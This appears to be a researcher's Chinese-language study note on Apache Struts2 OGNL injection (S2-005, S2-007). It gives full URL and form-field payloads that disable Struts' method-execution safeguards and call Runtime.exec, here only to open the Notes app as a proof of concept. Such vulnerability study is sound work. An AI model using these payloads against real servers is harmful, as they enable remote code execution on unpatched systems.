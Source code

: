 * 如果是调用的 OgnlUtil.getValue() 方法，则以下可以执行java代码：
  - (java code)
  - (java code)(a)
  - (a)(java code)
  - (java code)(a)(b)
  - (a)(java code)(b)
 
* 如果是调用的 OgnlUtil.setValue() 方法，则以下可以执行java代码：
  - (java code)(a)
  - (a)(java code)
  - (java code)(a)(b)
  - (a)(java code)(b)


## s2-005

### payload
```
http://www.glassy.com/test.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(a)(b)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(a)(b)&('\u0023_memberAccess.allowStaticMethodAccess\u003dfalse')(a)(b)&('\u0040java.lang.Runtime@getRuntime().exec(\'open\u0020/Applications/Notes.app/\')')(a)(b)
```

### injection
```js
('@java.lang.Runtime@getRuntime().exec('open /Applications/Notes.app/')')(a)(b)
```

### result
* 长亭的检测结果与注入漏洞成因一致
* 在s2-003的基础上，绕过官方的安全配置（禁止静态方法调用和类方法执行，前三步），再次造成漏洞。


## s2-007

### payload
```js
// 解码前
user.name=glassy&user.age=12&user.birthDay=%27%2b(%23_memberAccess.allowStaticMethodAccess%3dtrue%2c%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%40java.lang.Runtime%40getRuntime().exec(%27%2fApplications%2fNotes.app%2fContents%2fMacOS%2fNotes%27))%2b%27&user.email=31312%40qq.com

// 解码后
user.name=glassy&user.age=12&user.birthDay='+(#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.Runtime@getRuntime().exec('/Applications/Notes.app/Contents/MacOS/Notes'))+'&user.email=31312@qq.com
```

### injection
```js
#_memberAccess.allowStaticMethodAccess=true,
@java.lang.Runtime@getRuntime().exec('/Applications/Notes.app/Contents/MacOS/Notes')
```
